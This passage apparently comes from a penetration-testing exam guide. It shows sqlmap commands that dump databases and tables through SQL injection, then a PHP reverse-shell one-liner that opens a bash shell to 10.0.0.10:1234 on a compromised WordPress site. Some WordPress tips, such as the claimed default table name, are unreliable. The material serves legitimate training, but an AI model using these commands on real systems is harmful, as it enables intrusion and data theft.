 When you have it, try and find a list of databases using:

```bash
sqlmap -u "<url>" --dbs --data="<data>" --level 2 --risk 2
```

Typically, it will use a delay based technique to determine the contents of the SQL database. If you issued the above command, and followed the prompts, you'll see the command will slowly letter-by-letter spell out the databases on the device. When you see one that will aid your takeover.

Once you see a database that will be of interest, feel free to perform a keyboard interrupt and continue on with the next steps.

Find the tables in the target database:

```bash
sqlmap -u "<url>" --batch --tables -D <database> --data="<data>"
```

Once again it will type out letter-by-letter the contents of the table. When you spot something interesting, skip straight to finding it's contents.

Find the contents of a table:
```bash
sqlmap -u "<url>" --batch --dump -D <database> -T <table> --data="<data>"
```

Note: Instead of going through step by step like I explained, you could use the `sqlmap` wizard. I find this to be incredibly slow however, and wouldn't encourage it in a time-limited situation. Nonetheless, if you'd like to use the wizard issue the command:

```bash
sqlmap -u "<url>" --wizard
```

<span id="take-control" />

### Take Control
The steps to get a reverse shell will depend on the content of the database. In the case of the practical, finding the contents of the database allowed you to log into the wordpress site that was present. After logging in, a php reverse shell script could easily be added to the site.

<span id="tips" />

### Tips

1. Try accessing the site using different protocols. `https://` and `http://` are often used to show different things. 

2. `sqlmap` can often take ages, but it stores data to disk as it goes. So if you perform a keyboard interrupt you can often get right back to where you were.

3. The default table name for a Wordpress site is `wordpress8080`

4. The Wordpress admin page lives as `/admin`

5. [This gist](https://gist.github.com/rshipp/eee36684db07d234c1cc) shows an easy way to get a reverse PHP shell

    ```php
    <?php 
      exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'"); 
      ?>
    ```
